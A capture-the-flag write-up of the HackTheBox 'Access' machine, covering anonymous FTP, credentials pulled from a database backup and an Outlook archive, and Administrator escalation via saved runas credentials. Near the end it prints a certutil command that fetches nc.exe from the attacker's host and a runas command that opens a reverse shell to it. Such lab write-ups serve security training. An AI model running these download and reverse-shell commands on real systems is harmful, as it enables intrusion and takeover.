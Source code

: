 ```yaml
---
title: "HTB Write-up: Access"
date: 2018-12-19
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, runas, certutil, 7z, readpst]
header:
    teaser: "/assets/images/htb/access/access.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![access_info.png](/assets/images/htb/access/access_info.png)

*Note: I completed this challenge on December 19th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

### User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.98
```

From `masscan`, it was revealed that TCP ports 21 (FTP), 23 (Telnet), and 80 (HTTP) were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 21,80,23 -sC -sV -oA scans/discovered-tcp 10.10.10.98 
```

As expected, the services listening for connections on Access were FTP, Telnet, and HTTP. A screenshot of the result of the `nmap` scan is shown below.

![nmapresults.png](/assets/images/htb/access/nmapresults.png)

Of notable significance in this result is the "Anonymous FTP login allowed" line. This means that a user may access the FTP server running on Access as an anonymous user (with no password required). The process of accessing the FTP server in this manner is shown in the image below.

![ftp.png](/assets/images/htb/access/ftp.png)

Two directories were found in the root directory of the FTP server; a `Backups` directory and an `Engineer` directory. Searching through these directories revealed two interesting files; `backup.mdb` in the `Backups` directory and `Access Control.zip` in the `Engineer` directory. The FTP command `get` can be used to transfer the remote files to the local testing host. Depending on the contents being transferred with `get`, it is often advisable to transfer the data in binary mode (as opposed to in ASCII (text) mode). Binary mode transfers data byte-for-byte while ASCII mode will convert line endings from those of the sending system to those of the receiving system. Binary mode can be enabled with the FTP `binary` command. 

Once `backup.mdb` and `Access Control.zip` have been retrieved from the remote FTP server, they can be more thouroughly examined with the Linux `file` command. An example of this is demonstrated below.

```
root@kali:~/workspace/hackthebox/Access# file backup.mdb; file 'Access Control.zip'
backup.mdb: Microsoft Access Database
Access Control.zip: Zip archive data, at least v2.0 to extract
```

As files with the `.mdb` extension are not commonly used in Linux environments, a little searching was required to determine how to work with this Microsoft Access Database file type. The [MDBOpener](https://www.mdbopener.com) website was used to upload the `backup.mdb` Microsoft Access Database base, extract the contents, and export the data in CSV format. After parsing through the various tables present within the backup database, the `auth_user` table was eventually found, the contents of which are shown in the image below.

![authuser_csv.png](/assets/images/htb/access/authuser_csv.png)

As the content within the `auth_user` table appears to contain username-password combinations, the username-password pairs were used in attempts to access the Telnet server running on TCP port 23 of the target system, but to no avail. Time to look elsewhere.

Moving on to the second file retreived from the FTP server, the `'Access Control.zip'` file can be unzipped using the `7z` tool, as shown below.

```
root@kali:~/workspace/hackthebox/Access# 7z x 'Access Control.zip'
```

In this case, the file is password protected. Using the password `access4u@security` password found previously in the `auth_user` table within the Microsoft Access Database successfully unzips the `'Access Control.zip'` file, revealing the `'Access Control.pst'` file. Checking this file out with `file` reveals that the `.pst` file is a Microsoft Outlook email folder:

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.pst'
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

After a little research, it was found that the `readpst` tool as provided by the `pst-utils` package can be used to read the information within a `.pst` file. If necessary, `pst-utils` can be installed with the `apt-get install pst-utils` command. After using `read-pst` to reclaim the contents within the `'Access Control.pst'` file, the `'Access Control.mbox'` file is returned.

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.mbox'
Access Control.mbox: HTML document, UTF-8 Unicode text, with very long lines
```

As this contains UTF-8 Unicode text, it can be read using `vi`. A snippet of the contents within the `'Access Control.mbox'` file is shown below.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

Thanks for the information, John. 

The username `security` with the password `4Cc3ssC0ntr0ller` can be used to log in Access using `telnet`. At this point, the `user.txt` flag can be read. This process is shown in the screenshot below.

![user_txt.png](/assets/images/htb/access/user_txt.png)

### Root
While running through the usual privelege escalation enumeration commands, something stood out as odd. After running the `net users administrator` command, it was revealed that the "Password Not Required" property has been set for the Administrator user. This means that the Administrator user is allowed passwordless logon to the system.

![net_user.png](/assets/images/htb/access/net_user.png)

Investigating this property further with the Windows `cmdkey /list` command, it can be seen that the Administrator user has a stored credential on the system.

![cmdkey.png](/assets/images/htb/access/cmdkey.png)

Continuing enumeration, the `ZKAccess3.5 Security System.lnk` shortcut file found on the Public user's desktop suggests that commands can be run as the Administrator using the `runas` Windows command along with the `/savecred` flag. The `runas` command can be used to run a Windows command as another system user. 

![savecred_link.png](/assets/images/htb/access/savecred_link.png)

Putting these pieces together, it is clear that system commands can be run as the Administrator user if the `/savecred` flag is included as part of the `runas` command. The fact that the Administrator does not need a password to logon to the system, that the Administrator user has a stored credential on the system, and that the `runas` command with the `/savecred` flag is being used on the system suggests a possible privelege elevation scenario.

To leverage this situtation, `nc.exe` can be transferred to the target system and then used to obtain a reverse shell that connects to the attacking machine.

In this case, the `certutil` Windows tool is used on the target system to download `nc.exe`to the target system. After using Python's `SimpleHTTPServer` to host `nc.exe` on the attacking system, the `certutil` command shown below was run on the target system to download the `nc` executable to the system.

```
C:\Users\security\Music>certutil.exe -urlcache -split -f http://10.10.14.2/nc.exe nc.exe
```

A screenshot of this process is included below.

![cert_util.png](/assets/images/htb/access/cert_util.png)

With `nc.exe` on the target system and a `nc` listener listening on the attacking system, the command shown below was run on the target system to create a reverse shell connection to the attacking system.

```
C:\Users\security\Music>runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.2 4444"
```

From the connection received on the attacking system, the `root.txt` flag can be read.

![root_txt.png](/assets/images/htb/access/root_txt.png)
